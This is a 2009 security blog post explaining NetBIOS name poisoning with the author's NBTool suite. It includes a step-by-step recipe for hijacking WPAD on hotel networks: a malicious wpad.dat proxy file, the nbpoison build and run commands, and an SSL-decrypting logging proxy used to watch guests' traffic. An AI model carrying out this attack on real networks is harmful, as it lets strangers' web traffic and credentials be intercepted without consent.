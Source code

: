 ```yaml
---
id: 356
title: Pwning hotel guests
date: '2009-11-19T22:22:27-05:00'
author: ron
layout: post
guid: http://www.skullsecurity.org/blog/?p=356
permalink: "/2009/pwning-hotel-guests"
categories:
- hacking
- smb
- tools
comments_id: '109638339961134133'

---
```


Greetings everybody! 

I spent a good part of the past month traveling, which meant staying in several hotels, both planned and unplanned. There's nothing like having a canceled flight and spending a boring night in San Francisco! But hey, why be bored when you have a packet sniffer installed? :)
<!--more-->
Disclaimer: running a sniffer on somebody else's network may or may not be illegal; the only advice I can give is the guy down at Kinko's said it's okay. 

Now, before I get to the fun, we need to step back and talk about NetBIOS name resolution a bit. My <a href='http://www.skullsecurity.org/blog/?p=6'>very first post</a> on this blog was actually about NetBIOS and my NBTool suite, and you may want to review it because this'll be a quick crash course. 

<h2>NetBIOS review</h2>
When Windows attempts to resolve domain names, it uses to DNS first. Assuming nobody has <a href='http://www.windowsecurity.com/articles/DHCP-Security-Part1.html'>hijacked their DHCP request</a> and fed them bad DNS servers, and nobody is performing <a href='http://www.hackinthebox.org/modules.php?op=modload&name=News&file=article&sid=12868&mode=thread&order=0&thold=0'>ARP spoofing</a> to redirect traffic, it'll go out to their DNS server. The DNS server, assuming it hasn't been <a href='http://en.wikipedia.org/wiki/DNS_cache_poisoning'>poisoned</a> or <a href='http://en.wikipedia.org/wiki/DNS_hijacking'>hijacked</a>, will respond with the proper IP address. (It's a miracle anybody gets work done on the Internet, isn't it?)

If DNS fails, Windows tries <a href='http://en.wikipedia.org/wiki/NetBIOS#Name_service'>NetBIOS name resolution</a>. It's this resolution that lets you type "ping FREDSBOX" and, if FREDSBOX is alive, it'll resolve. While useful on a trusted network (haha, trusted network...), this resolution really just amounts to a broadcast saying "Who has XXX?" The thoughtful servers on the network, unless they're legitimately named "XXX", look down and shuffle their feet, and the server named "XXX" will say "hey, that's me!" But what's stopping an attacker from also claiming to be "XXX"? 

Nothing. 

That's why, in a fateful moment of usefulness, I wrote <a href='http://www.skullsecurity.org/wiki/index.php/Nbtool'>NBTool</a>. 

<h2>NBTool?</h2>
One of the tools included with NBTool, called nbpoison, will intercept requests and respond with a requested address. With the -c (or conflict) flag, it'll even inform other servers that they don't own a name. That might cause services to break, though, and some versions of Windows will pop up a warning when a conflict occurs. But such is life. 

When you supply -c, you end up with traffic that looks like:
<ul>
<li>FREDSBOX: (having just booted) Hey guys, just FYI, I'm FREDSBOX</li>
<li>Attacker: No, sir, you are not; I am FREDSBOX</li>
<li>FREDSBOX: k, sorry (from then on, FREDSBOX won't respond to his own name)</li>
</ul>

So anyway, I wrote that awhile ago, and had some fun showing off to our co-op students ("look! going to 'www.yahoo.colm' takes you to Google! Isn't that funny?" (their answer was inevitably "no")), but then I shelved it to work on <a href='http://nmap.org'>things people actually care about</a>. (Note that 'www.yahoo.com' is intentionally misspelled -- the reason is that, if it's spelled correctly, the NetBIOS request would never be made). 

What I hadn't realized was, there are more fun things you can do! Let's have a look. 

<h2>Where'd that WPAD server go...?</h2>
One of the first things I noticed after running a packet capture in a hotel was this:
<img src='/blogdata/WPAD.png'>

I saw some workstations desperately trying to find a server called WPAD, and I couldn't get over how familiar WPAD looked. Word Press [something]? [something] Active Directory? Is it a blog thing? Bah!

So, I looked it up on the <a href='http://futurama.wikia.com/wiki/Old_Farmers_Wikipedia'>Old Farmers Wikipedia</a>, and found it: Web Proxy Auto Discovery. Of course! This must be somebody's browser trying to find a proxy server. Wait... somebody's browser is broadcasting a request for a proxy server? And it's willing to trust people to tell it which proxy to use? Awesome! 

Now, this is where I stopped. Despite what the guy at Kinko's said, I'm not comfortable with actually redirecting people's traffic. That wouldn't be nice at all, and I'm reasonably sure it steps over that legal line. But, here's what one <i>could</i> do...

<h3>Step 1: Set up a logging proxy</h3>
<a href='http://portswigger.net/suite/'>Burp Suite</a> and <a href='http://www.parosproxy.org/'>Paros</a>, among others, would work great. It's especially fun because they'll decrypt SSL for you, and even let you modify requests/responses!

<h3>Step 2: Set up a Web server</h3>
Set up a Web server (or a <a href='http://netcat.sourceforge.net/'>netcat</a> listener) that'll serve up a /wpad.dat file pointing to your logging proxy. I'm no expert on writing WPAD files, but I <a href='http://www.craigjconsulting.com/proxypac.html'>found this one online</a>:
<pre>function FindProxyForURL(url, host)
{
  return "PROXY 192.168.100.123:8080";
}</pre>

<h3>Step 3: Start poisoning requests</h3>
<pre>$ wget http://www.skullsecurity.org/downloads/nbtool-0.02.tar.gz
$ tar -xvvzf nbtool-0.02.tar.gz
$ cd nbtool-0.02
$ make
$ sudo ./nbpoison -s 192.168.100.123</pre>

(nbpoison has to run as root because it listens on UDP port 137)

As of the current version, there's no way to actually pick and choose domains; it's all or nothing. So, every NetBIOS request will evoke a response. That can be fun, of course, but at some point I'll add a domain name argument. 

<h3>Step 4: Watch the traffic</h3>
If all goes according to plan, anybody set to use auto-configured proxies will start using your proxy, and you can see what they're up to. And great times will be had by all!

<h2>Other attacks</h2>
Hijacking the WPAD file is cool, but what else can you do?

Well, it turns out that any internal server that the computers are configured to use will send out NetBIOS requests, because, for obvious reasons, their internal servers aren't listed in DNS. That can include, but isn't limited to:
<ul>
<li>Exchange (or other email) server</li>
<li>File shares</li>
<li>Instant messenger servers</li>
<li>Proxy server</li>
<li>Browser's homepage</li>
<li>Time reporting</li>
<li>Issue tracking</li>
<li>Internal news feeds</li>
<li>Development server</li>
<li>etc.</li>
</ul>

If you start hijacking names and hosting Web servers, SMB servers, etc, you may start seeing interesting requests. You'll want to run Wireshark, as well, to see what else is trying to connect to you. It'll be a party!

<h2>So, what's the big deal?</h2>
Yes, this is the key. What IS the big deal? So you can redirect somebody who's on the same subnet as you. Why not use ARP spoofing? DHCP poisoning? Other subnet-based attacks?

And that'd be a great question. This is yet another member of a long line of evil things you can do on a subnet. Not to mention scores of attacks against unsecured wireless, which hotels seem to like! 

The biggest advantage I see is that this attack is fairly quiet, keeping a very low profile. Somebody who isn't performing NetBIOS resolutions won't even know that somebody's out there, and somebody who is will probably get expected error pages when they DO attempt a request. Additionally, when it comes right down to it, there's a much smaller chance of screwing things up with NetBIOS poisoning than other LAN attacks. 

Thanks for reading!
